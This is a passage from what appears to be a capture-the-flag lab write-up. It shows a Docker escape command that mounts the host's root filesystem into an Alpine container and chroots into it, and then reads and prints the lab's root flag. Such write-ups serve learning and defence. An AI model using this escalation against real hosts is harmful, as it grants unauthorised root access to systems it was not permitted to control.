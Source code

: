 
```
docker run -v /:/host -it alpine chroot /host /bin/sh
```


We can check this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331172248.png)

There we go, we can finally read root flag:

```
root@6e6c3ee6eed0:/# cat root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250331172348.png)



